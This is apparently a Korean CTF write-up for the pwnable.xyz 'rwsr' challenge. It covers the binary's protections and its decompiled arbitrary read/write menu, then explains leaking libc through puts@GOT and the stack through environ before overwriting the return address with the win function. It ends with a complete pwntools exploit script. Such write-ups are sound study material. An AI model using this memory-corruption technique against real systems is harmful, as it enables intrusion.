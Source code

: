 ```yaml
---
title: "[pwnable.xyz]rwsr"
date: 2020-1-31
ctf: Pwnable.xyz
layout: post
---
```


Full RELRO, Canary, NX 보호기법이 적용되어있다. 

```
[*] '/vagrant/ctfs/challenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

원하는 주소의 값을 읽을 수 있고 그 해당 주소에 값을 쓸 수 있다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  char *s; // ST10_8
  char *v6; // ST10_8

  setup();
  puts("Read Write Sleep Repeat.");
  do
  {
    while ( 1 )
    {
      while ( 1 )
      {
        print_menu();
        v3 = read_ulong();
        if ( v3 != 1 )
          break;
        printf("Addr: ", argv);                 // read
        s = read_ulong();
        puts(s);
      }
      if ( v3 != 2 )                            // write
        break;
      printf("Addr: ", argv);
      v6 = read_ulong();
      printf("Value: ");
      *v6 = read_ulong();
    }
  }
  while ( v3 );
  return 0;
}
```

write라 got 덮을라 했는데 Full RELRO여서 return address를 write하는 방법을 생각했다. 

environ을 이용해서 stack leak을 해주면 된다. 우선 원하는 주소의 값을 알 수 있으니까 puts@got를 read하면 실제 주소가 나올거고 립씨 베이스도 구할 수 있다.

environ을 이용해서 stack 릭하는 방법은 `libc_base + libc.symbols['environ']` 을 leak하면 stack 주소를 구할 수 있다. 

그리고 리턴 주소를 구해야하는데 우선 rbp+8이 리턴주소니까 rbp와 leak한 stack주소의 오프셋을 구해줘서 + 8 해주면 된다.

이후에 2번 메뉴 Write로 return address에 win함수 주소를 넣고 exit해주면 win으로 리턴된다.

environ을 이용해서 stack leak하기 위해서 필요한 것은 립씨 베이스를 알아야하고 environ을 leak할 수 있어야한다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
# p = process('./challenge')
# libc = e.libc
p = remote('svc.pwnable.xyz',30019)
libc = ELF('alpine-libc-2.28.so')
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
win = e.symbols['win']
main = e.symbols['main']

sla('>','1')
sa(':',str(e.got['puts']))
puts = u64(p.recvuntil('\x7f')[-6:]+'\x00\x00')
log.info('puts : {}'.format(hex(puts)))
libc_base = puts - libc.symbols['puts']
log.info('libc_base : {}'.format(hex(libc_base)))
environ_ptr = libc_base + libc.symbols['environ'] 
log.info('environ_ptr : {}'.format(hex(environ_ptr)))

sla('>','1')
sa(':',str(environ_ptr))
environ = u64(p.recvuntil('\x7f')[-6:]+'\x00\x00')
log.info('environ : {}'.format(hex(environ)))
# environ - rbp = 248
rbp = environ - 248
log.info('rbp : {}'.format(hex(rbp)))
return_add = rbp + 8
log.info('return : {}'.format(hex(return_add)))

sla('>','2')
sa(':',str(return_add))
sa(':',str(win))

sla('>','0')

p.interactive()
```

